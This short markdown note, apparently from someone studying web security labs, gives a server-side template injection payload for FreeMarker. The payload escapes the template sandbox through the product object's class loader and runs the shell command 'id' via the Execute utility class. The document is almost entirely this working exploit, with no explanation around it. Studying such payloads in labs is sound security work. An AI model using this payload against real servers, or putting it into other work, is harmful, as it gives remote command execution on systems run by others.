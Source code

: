 # SSTI : Server-side template injection 



### Server-side template injection in a sandboxed environment
Payload 
```html

<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.Hello 

<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}


</p>
```